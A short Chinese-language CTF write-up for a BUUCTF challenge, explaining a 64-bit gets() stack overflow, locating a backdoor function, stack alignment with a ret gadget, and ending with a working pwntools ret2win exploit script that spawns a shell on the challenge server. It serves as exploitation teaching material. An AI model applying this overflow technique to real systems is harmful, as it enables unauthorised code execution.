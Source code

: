 ### Gets 栈溢出（堆栈平衡）

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/677ccc0cd0e0a243d4f11725.jpg)

IDA64 反编译

![](https://pic1.imgdb.cn/item/677ccc20d0e0a243d4f11726.jpg)

去找后门函数

![](https://pic1.imgdb.cn/item/677ccc37d0e0a243d4f11732.jpg)

记录地址

![](https://pic1.imgdb.cn/item/677ccc4ed0e0a243d4f11738.jpg)

缓冲区 s 存在明显栈溢出

![](https://pic1.imgdb.cn/item/677f64dad0e0a243d4f27a2b.jpg)

15 + 8 覆盖掉这段地址到 r 返回地址中

**64 位系统还需要保持一个栈平衡，需要找 lea 的地址或者该函数结束即 retn 的地址**

当我们在堆栈中进行堆栈的操作的时候，一定要保证在 ret 这条指令之前

esp 指向的是我们压入栈中的地址，函数执行到 ret 执行之前，堆栈栈顶的地址一定要是 call 指令的下一个地址

![](https://pic1.imgdb.cn/item/677cce7ed0e0a243d4f117e6.jpg)

编写脚本

```python
from pwn import *

p = remote("node5.buuoj.cn", 26964)

payload = b'a' * 23 + p64(0x401198) + p64(0x401186)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/677cd07dd0e0a243d4f1199b.jpg)